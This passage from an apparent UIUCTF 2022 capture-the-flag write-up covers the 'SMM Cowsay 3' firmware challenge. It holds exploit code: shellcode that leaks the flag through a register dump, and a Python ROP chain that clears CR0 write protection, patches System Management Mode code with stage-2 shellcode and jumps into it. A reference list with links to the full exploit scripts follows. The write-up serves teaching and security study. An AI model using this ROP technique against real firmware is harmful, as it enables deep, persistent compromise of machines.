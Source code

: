 ```python
    mov qword ptr [rbx + 8 * 0x40], rax

    /* Read flag and die so regs get dumped, GG! */
    movabs rax, 0x44440000
    mov rax, qword ptr [rax]
    ud2
''')
```

Again, we can run the exploit multiple times changing that `0x44440000` to leak
8 bytes at a time and obtain the full flag.

### Putting it all together

Now we can build the ROP chain and send the exploit in the same way we did for
SMM Cowsay 2:

```python
real_chain = [
    # Unset CR0.WP
    pop_rax_rbx_r12, # pop rax ; pop rbx ; pop r12 ; ret
    0x80000033     , # -> RAX
    0xdeadbeef     , # filler
    0xdeadbeef     , # filler
    mov_cr0_rax    , # mov cr0, rax ; wbinvd ; ret
]

# Now that CR0.WP is unset, we can just patch SMM code and jump to it!
# Make the ROP chain write the stage 2 shellcode at PiSmmCpuDxeSmm_text
# 8 bytes at a time, then jump into it
for i in range(0, len(stage2_shellcode), 8):
    chunk = stage2_shellcode[i:i + 8].ljust(8, b'\x90')
    chunk = u64(chunk)

    real_chain += [
        pop_rax_rbx_r12        , # pop rax ; pop rbx ; pop r12 ; ret
        chunk                  , # -> RAX
        PiSmmCpuDxeSmm_text + i, # -> RBX
        0xdeadbeef             ,
        write_primitive        , # mov qword ptr [rbx], rax ; pop rbx ; ret
        0xdeadbeef
    ]

real_chain += [PiSmmCpuDxeSmm_text]

# Transform real ROP chain into .quad directives to embed in the shellcode:
#   .quad 0x7f8a184
#   .quad 0x80000033
#    ...
real_chain_size = len(real_chain) * 8
real_chain      = '.quad ' + '\n.quad '.join(map(str, real_chain))
```


[smm1]: #smm-cowsay-1
[smm2]: #smm-cowsay-2
[smm3]: #smm-cowsay-3
[expl1]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_1.py
[expl2]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_2.py
[expl3]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_3.py
[tweet]:                               https://twitter.com/MeBeiM/status/1554849894237609985
[uiuctf]:                              https://ctftime.org/event/1600/
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges
[author]:                              https://github.com/zhuyifei1999
[wiki-smm]:                            https://en.wikipedia.org/wiki/System_Management_Mode
[intel-sdm]:                           https://www.intel.com/content/www/us/en/developer/articles/technical/intel-sdm.html
[uefi-spec]:                           https://uefi.org/specifications
[uefi-spec-pdf]:                       https://uefi.org/sites/default/files/resources/UEFI_Spec_2_9_2021_03_18.pdf
[man-cowsay]:                          https://manned.org/cowsay.1
[man-pahole]:                          https://manned.org/pahole.1
[x64-call]:                            https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm
[x86-rdrand]:                          https://www.felixcloutier.com/x86/rdrand
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools
[gh-ropgadget]:                        https://github.com/JonathanSalwan/ROPgadget
[gh-edk2]:                             https://github.com/tianocore/edk2
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx
[gh-qemu]:                             https://github.com/qemu/qemu
[qemu-memtxattrs]:                     https://github.com/qemu/qemu/blob/v7.0.0/include/exec/memattrs.h#L35
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-uefi-driver-writer-s-guide/3_foundation/33_uefi_system_table
[edk2-SmiHandlerRegister]:             https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdeModulePkg/Core/PiSmmCore/Smi.c#L213
[edk2-EfiRuntimeServicesData]:         https://github.com/tianocore/edk2/blob/0ecdcb6142037dd1cdd08660a2349960bcf0270a/BaseTools/Source/C/Include/Common/UefiMultiPhase.h#L25
[edk2-SmmCommunicationCommunicate]:    https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L110
[edk2-EFI_SMM_COMMUNICATION_PROTOCOL]: https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L267
[edk2-copy-msg]:                       https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L547
[edk2-smi-entry]:                      https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiEntry.nasm#L89
[edk2-gadget]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/Library/BaseLib/X64/LongJump.nasm#L54
[edk2-MdePkg]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/MdePkg.dec
[edk2-buffer-check]:                   https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdePkg/Library/SmmMemLib/SmmMemLib.c#L163
[edk2-gdt]:                            https://github.com/tianocore/edk2/blob/2812668bfc121ee792cf3302195176ef4a2ad0bc/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiException.nasm#L31